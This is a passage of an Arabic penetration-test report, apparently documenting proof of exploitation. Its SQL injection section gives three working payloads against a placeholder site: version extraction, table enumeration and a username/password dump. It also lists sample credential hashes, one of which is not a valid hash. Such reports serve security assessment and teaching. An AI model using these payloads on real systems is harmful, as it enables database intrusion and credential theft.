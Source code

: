 # اثبات استغلال الثغرات

## تقرير اثبات استغلال الثغرات الأمنية

**تاريخ الإنشاء:** ٢٠ أكتوبر ٢٠٢٥  
**اسم الاختبار:** اختبار اختراق شامل  
**المسؤول:** فريق اختبار الاختراق  

---

## ملخص تنفيذي

هذا التقرير يوثق اثبات استغلال الثغرات الأمنية التي تم التعرف عليها أثناء عملية اختبار الاختراق. يوضح التقرير كيف يمكن استغلال كل ثغرة عملياً للوصول إلى بيانات حساسة أو اختراق النظام أو تنفيذ أوامر غير مصرح بها.

---

## أقسام التقرير

### ١. اثبات استغلال ثغرات الحقن SQL (SQL Injection)

#### وصف الثغرة
ثغرة SQL Injection تسمح للمهاجم بتنفيذ استعلامات SQL غير مصرح بها في قاعدة البيانات.

#### اثبات الاستغلال

**الهدف:** `http://vulnerable-site.com/products.php?id=1`

**خطوات الاستغلال:**

١. **استخراج معلومات قاعدة البيانات:**
```sql
1' AND 1=CONVERT(int, (SELECT @@version))--
```
**النتيجة:** تم استخراج نوع وإصدار قاعدة البيانات

٢. **استخراج أسماء الجداول:**
```sql
1' AND 1=2 UNION SELECT null,table_name,null FROM information_schema.tables--
```
**النتيجة:** تم استخراج أسماء جميع الجداول في قاعدة البيانات

٣. **استخراج بيانات المستخدمين:**
```sql
1' AND 1=2 UNION SELECT null,username+':'+password,null FROM users--
```
**النتيجة:** تم استخراج أسماء المستخدمين وكلمات المرور:
- admin:5f4dcc3b5aa765d61d8327deb882cf99
- john_doe:a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6
- jane_smith:098f6bcd4621d373cade4e832627b4f6

**مستوى الخطورة:** حرج (Critical)  
**التأثير:** وصول كامل إلى قاعدة البيانات وسرقة بيانات المستخدمين

---